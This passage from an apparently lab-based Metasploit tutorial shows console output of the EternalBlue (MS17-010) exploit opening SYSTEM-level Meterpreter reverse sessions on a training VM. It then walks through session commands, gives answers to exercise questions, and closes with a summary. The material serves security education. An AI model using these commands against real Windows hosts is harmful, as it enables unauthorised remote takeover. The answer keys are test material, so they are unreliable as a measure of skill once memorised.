[+] 10.10.12.229:445 - Closing SMBv1 connection creating free hole adjacent to SMBv2 buffer.
[*] 10.10.12.229:445 - Sending final SMBv2 buffers.
[*] 10.10.12.229:445 - Sending last fragment of exploit packet!
[*] 10.10.12.229:445 - Receiving response from exploit packet
[+] 10.10.12.229:445 - ETERNALBLUE overwrite completed successfully (0xC000000D)!
[*] 10.10.12.229:445 - Sending egg to corrupted connection.
[*] 10.10.12.229:445 - Triggering free of corrupted buffer.
[*] Sending stage (201283 bytes) to 10.10.12.229
[*] Meterpreter session 2 opened (10.10.44.70:4444 -> 10.10.12.229:49186) at 2021-08-20 02:06:48 +0100
[+] 10.10.12.229:445 - =-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=
[+] 10.10.12.229:445 - =-=-=-=-=-=-=-=-=-=-=-=-=-WIN-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=
[+] 10.10.12.229:445 - =-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=
[*] Session 2 created in the background.
msf5 exploit(windows/smb/ms17_010_eternalblue) >

        


This will return you the context prompt from which you have run the exploit.

Some modules support the check option. This will check if the target system is vulnerable without exploiting it.


Sessions
Once a vulnerability has been successfully exploited, a session will be created. This is the communication channel established between the target system and Metasploit.


You can use the background command to background the session prompt and go back to the msfconsole prompt.


Backgrounding sessions

           
meterpreter > background
[*] Backgrounding session 2...
msf5 exploit(windows/smb/ms17_010_eternalblue) > 

        


Alternatively, CTRL+Z can be used to background sessions.

The sessions command can be used from the msfconsole prompt or any context to see the existing sessions.

Listing active sessions

           
msf5 exploit(windows/smb/ms17_010_eternalblue) > sessions

Active sessions
===============

  Id  Name  Type                     Information                   Connection
  --  ----  ----                     -----------                   ----------
  1         meterpreter x64/windows  NT AUTHORITY\SYSTEM @ JON-PC  10.10.44.70:4444 -> 10.10.12.229:49163 (10.10.12.229)
  2         meterpreter x64/windows  NT AUTHORITY\SYSTEM @ JON-PC  10.10.44.70:4444 -> 10.10.12.229:49186 (10.10.12.229)

msf5 exploit(windows/smb/ms17_010_eternalblue) > back
msf5 > sessions 

Active sessions
===============

  Id  Name  Type                     Information                   Connection
  --  ----  ----                     -----------                   ----------
  1         meterpreter x64/windows  NT AUTHORITY\SYSTEM @ JON-PC  10.10.44.70:4444 -> 10.10.12.229:49163 (10.10.12.229)
  2         meterpreter x64/windows  NT AUTHORITY\SYSTEM @ JON-PC  10.10.44.70:4444 -> 10.10.12.229:49186 (10.10.12.229)

msf5 >

        


To interact with any session, you can use the sessions -i command followed by the desired session number.
Interacting with sessions

           
msf5 > sessions

Active sessions
===============

  Id  Name  Type                     Information                   Connection
  --  ----  ----                     -----------                   ----------
  1         meterpreter x64/windows  NT AUTHORITY\SYSTEM @ JON-PC  10.10.44.70:4444 -> 10.10.12.229:49163 (10.10.12.229)
  2         meterpreter x64/windows  NT AUTHORITY\SYSTEM @ JON-PC  10.10.44.70:4444 -> 10.10.12.229:49186 (10.10.12.229)

msf5 > sessions -i 2
[*] Starting interaction with 2...

meterpreter >

        
QUESTIONS

How would you set the LPORT value to 6666?

A: set LPORT 6666

How would you set the global value for RHOSTS  to 10.10.19.23 ?

A: gset RHOSTS 10.10.19.23

What command would you use to clear a set payload?

A: unset payload

What command do you use to proceed with the exploitation phase?

A: exploit


* Summary



As we have seen so far, Metasploit is a powerful tool that facilitates the exploitation process. The exploitation process comprises three main steps; finding the exploit, customizing the exploit, and exploiting the vulnerable service.

Metasploit provides many modules that you can use for each step of the exploitation process. Through this room, we have seen the basic components of Metasploit and their respective use.

It would be best if you also had used the ms17_010_eternalblue exploit to gain access to the target VM.

In the following rooms, we will cover Metasploit and its components in more detail. Once completed, this module should give you a good understanding of the capabilities of Metasploit.

